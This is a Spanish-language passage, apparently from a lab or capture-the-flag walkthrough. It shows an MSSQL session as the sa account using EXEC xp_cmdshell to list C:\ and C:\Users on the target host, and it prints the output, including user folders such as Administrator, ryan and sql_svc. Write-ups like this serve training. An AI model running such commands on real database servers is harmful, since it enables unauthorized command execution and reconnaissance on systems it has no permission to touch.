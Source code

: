 
Paso 3:  Utilizamos el siguiente comando para habilitar directorios `EXEC xp_cmdshell`**

```bash
SQL (sa  dbo@master)> EXEC xp_cmdshell 'dir C:\';
output                                                       
----------------------------------------------------------   
 Volume in drive C has no label.                             

 Volume Serial Number is 3705-289D                           

NULL                                                         

 Directory of C:\                                            

NULL                                                         

11/05/2022  12:03 PM    <DIR>          PerfLogs              

01/04/2025  08:11 AM    <DIR>          Program Files         

06/09/2024  08:37 AM    <DIR>          Program Files (x86)   

06/08/2024  03:07 PM    <DIR>          SQL2019               

06/09/2024  06:42 AM    <DIR>          Users                 

04/28/2025  04:24 AM    <DIR>          Windows               

               0 File(s)              0 bytes                

               6 Dir(s)   3,222,851,584 bytes free           

NULL                                                         
```


Comenzamos la exploracion de directorios accediendo al directorio Users con el comando `EXEC xp_cmdshell 'dir C:\Users';

```bash
SQL (sa  dbo@master)> EXEC xp_cmdshell 'dir C:\Users';
output                                                 
----------------------------------------------------   
 Volume in drive C has no label.                       

 Volume Serial Number is 3705-289D                     

NULL                                                   

 Directory of C:\Users                                 

NULL                                                   

06/09/2024  06:42 AM    <DIR>          .               

06/09/2024  06:42 AM    <DIR>          ..              

12/25/2024  04:10 AM    <DIR>          Administrator   

04/28/2025  08:10 PM    <DIR>          Public          

04/28/2025  08:22 PM    <DIR>          ryan            

06/08/2024  04:16 PM    <DIR>          sql_svc         

```